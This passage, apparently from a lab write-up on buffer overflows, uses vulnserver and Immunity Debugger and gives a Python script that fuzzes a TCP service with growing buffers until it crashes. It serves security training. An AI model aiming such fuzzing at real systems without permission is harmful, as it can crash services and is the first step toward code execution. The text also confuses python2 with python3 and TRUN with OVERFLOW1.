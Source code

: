 
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python2 script for it :

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

![](https://i.imgur.com/80EQ0QI.png)

- Now run your script and notice what is going on

![](https://i.imgur.com/a4kuXNN.png)
